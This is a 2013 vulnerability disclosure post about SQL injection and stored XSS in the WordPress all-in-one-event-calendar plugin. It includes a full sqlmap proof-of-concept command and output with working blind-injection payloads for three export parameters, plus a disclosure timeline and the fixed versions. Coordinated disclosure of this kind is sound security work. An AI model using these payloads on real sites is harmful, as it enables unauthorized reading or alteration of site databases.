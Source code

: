 +++
Description = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
title = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
date = "2013-11-14T22:05:00+01:00"

+++
During a recent security audit I found multiple vulnerabilities in the Wordpress plugin "all-in-one-event-calendar".
There is a lite version provided through the Wordpress site ([http://wordpress.org/plugins/all-in-one-event-calendar/](http://wordpress.org/plugins/all-in-one-event-calendar/)), and a standard version provided through a third party site ([http://time.ly/](http://time.ly/)).
Both versions were tested and are vulnerable to the reported issues.

PS: There is also a paid pro version. This was not tested but it's likely also vulnerable to the mentioned issues.

<!--more-->

**Tested versions:**

Lite Plugin: 1.9

Standard Plugin: 1.10

**SQL-Injection through export function**

The plugin offers an export function to export the event to either iCal format or Google Calender.

The Parameters "ai1ec_cat_ids", "ai1ec_post_ids" and "ai1ec_tag_ids" are all vulnerable to SQL-Injection.
By exploiting this vulnerability, a user is able to read or modify the whole Wordpress Database, or even more depending on the database configuration.

**Vulnerable code:**

[http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146](http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146)

**Proof of concept:**

To exploit this SQL-Injection through sqlmap ([https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)):
Prerequisite: You need at least one event

```
python sqlmap.py --url "http://IP/wordpress/?plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=" -p ai1ec_tag_ids,ai1ec_post_ids,ai1ec_cat_ids --risk 3 --level 3 --dbms mysql
```

**sqlmap Output:**

```
Place: GET
Parameter: ai1ec_cat_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-8478) OR (5188=5188) AND (1391=1391&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-2330) OR 3582=SLEEP(5) AND (8356=8356&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=

Place: GET
Parameter: ai1ec_post_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-8080) OR (8936=8936) AND (6501=6501
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-2544) OR 1170=SLEEP(5) AND (6134=6134

Place: GET
Parameter: ai1ec_tag_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-6274) OR (5133=5133) AND (6779=6779&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-1181) OR 8944=SLEEP(5) AND (4367=4367&amp;ai1ec_post_ids=
```

This proves, that all 3 Parameters are vulnerable to SQL-Injection. Due to some Parameter processing before the Statement is executed (e.g. split by comma), you need to write a script to exploit this vulnerability, or use a tool like sqlmap.

**Cross Site Scripting (XSS) in location details:**

When entering Javascript code in the fields "Venue Name" and "Address" when creating a new event, it is possible to execute script code in the context of the user viewing the event.

All values should be properly escaped before they are output to HTML. This issue is present through all default Calendar Themes.

**All Issues were fixed in the following versions:**

*Lite version:* 1.10

*Standard version:* 1.10.1-standard

**Timeline:**

03.07.2013: Informed time.ly, secunia and wordpress about the vulnerabilities

03.07.2013: Received mail from time.ly saying they forwarded it to their developers

23.07.2013: Asked for an ETA because the issue is still present

23.07.2013: time.ly submitted fixed plugin to wordpress repository

24.07.2013: lite Plugin fixed ([http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10](http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10))

03.10.2013: Standard Plugin fixed ([http://time.ly/1-10-1-now-available-for-some-standard-users/](http://time.ly/1-10-1-now-available-for-some-standard-users/))

**Additional URLs:**
*Secunia Advisory:* [http://secunia.com/advisories/54038/](http://secunia.com/advisories/54038/)
